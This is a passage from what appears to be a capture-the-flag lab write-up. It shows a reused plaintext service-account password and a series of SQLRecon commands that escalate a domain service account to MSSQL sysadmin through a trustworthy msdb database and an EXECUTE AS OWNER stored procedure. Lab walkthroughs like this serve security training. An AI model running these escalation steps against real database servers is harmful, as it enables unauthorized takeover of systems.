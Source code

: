 ![](28.png)

We also captured domain info using `SharpHound` and found another user `svc_sql`, which luckily had the same password as `svc_ldap` user: `osaRXWkDf2y5SGh5`

![](29.png)

Now we can play with MSSQL we saw during enumeration stage. We can use [SQLRecon](https://github.com/skahwah/SQLRecon). We don't have sysadmin privileges

```
SQLRecon.exe /a:wintoken /h:dc02.mythical-eu.vl /m:whoami
```

![](30.png)

Another way to escalate our privileges is by using trustworthy database

```
SQLRecon.exe /a:wintoken /h:dc02.mythical-eu.vl /m:query /c:"SELECT a.name AS 'database', b.name AS 'owner', is_trustworthy_on FROM sys.databases a JOIN sys.server_principals b ON a.owner_sid = b.sid;"
```

![](31.png)

If a database is marked as trustworthy, and we have control of or may execute as a user who belongs to the database-level `db_owner` role, then it is possible to assign the server-level sysadmin role to arbitrary logins.

```
SQLRecon.exe /a:wintoken /h:dc02.mythical-eu.vl /m:query /c:"USE msdb; SELECT b.name, c.name FROM msdb.sys.database_role_members a JOIN msdb.sys.database_principals b ON a.role_principal_id = b.principal_id LEFT JOIN msdb.sys.database_principals c ON a.member_principal_id = c.principal_id;"
```

![](32.png)

Since we have the required privileges, let's abuse them. Let's create a procedure that will assign `svc_sql` login the server-level sysadmin role.
```
SQLRecon.exe /a:wintoken /h:dc02.mythical-eu.vl /database:msdb /m:query /c:"CREATE PROCEDURE sp_privesc WITH EXECUTE AS OWNER AS EXEC sp_addsrvrolemember 'MYTHICAL-EU\svc_sql', 'sysadmin';"
```

![](33.png)

Now execute the procedure

```
SQLRecon.exe /a:wintoken /h:dc02.mythical-eu.vl /database:msdb /m:query /c:"EXECUTE sp_privesc;"
```

![](34.png)


Now we have sysadmin privileges
```
SQLRecon.exe /a:wintoken /h:dc02.mythical-eu.vl /m:query /c:"SELECT IS_SRVROLEMEMBER('sysadmin');"
```
